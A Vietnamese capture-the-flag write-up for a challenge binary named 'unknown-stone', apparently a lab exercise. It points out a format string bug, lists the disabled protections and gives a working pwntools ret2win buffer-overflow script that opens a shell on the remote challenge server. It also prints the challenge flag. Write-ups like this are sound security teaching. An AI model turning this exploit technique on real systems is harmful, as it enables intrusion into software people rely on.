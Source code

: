 Ta sẽ phát hiện ra hàm `win()`. Đây là hàm mà đề bài yêu cầu chúng ta khai thác và lấy flag trong này. Đọc code chúng ta thấy ở đây:

```c
printf(stone);
```

Đây là vuln **Format String** cho phép người dùng kiểm soát đầu vào và được đọc từ hàm `scanf`

Khi mình sử dụng lệnh `checksec` để kiểm tra những biện pháp bảo mật. Mình nhận ra tất cả đều đã bị tắt hoặc không có

```
RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

Và rồi mình thấy rằng có một cách khác để ta có thể gọi hàm `win()` đơn giản hơn mà không cần phải exploit **Format String**, đó là sử dụng kỹ thuật **ret2win (BoF)**. Đây là một kỹ thuật khai thác phổ biến nhằm chuyển hướng luồng thực thi của chương trình sang một hàm cụ thể

Đầu tiên chúng ta cần xác định vị trí của hàm `win()`

Tiếp đến chuyển địa chỉ vừa có sang dạng **little-edian** ta có:

> "f\x11@\x00\x00\x00\x00\x00" <=> 0x000000000000401166

Cuối cùng chúng ta viết payload để exploit:

```python
from pwn import *
#p = process('./unknown-stone')
p = remote("0.cloud.chals.io", 19873)
payload = "A"*120 + "f\x11@\x00\x00\x00\x00\x00"
p.sendlineafter(b'> ', payload)
p.interactive()
p.close()
```

```shell
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x3f bytes:
    b'flag.txt  genie_of_past  lib  run.sh  sol_un.py  unknown-stone\n'
flag.txt  genie_of_past  lib  run.sh  sol_un.py  unknown-stone
```

Sau đó, ta chỉ cần `cat flag.txt` nữa là xong thôi

> **FLAG: flag{1e889c7ff1a070419f148174f9eb8d23}**

### Bonus

Một thành viên trong team mình đã viết script khác ngắn gọn hơn mà không cần phải ngồi mò địa chỉ của hàm `win()`
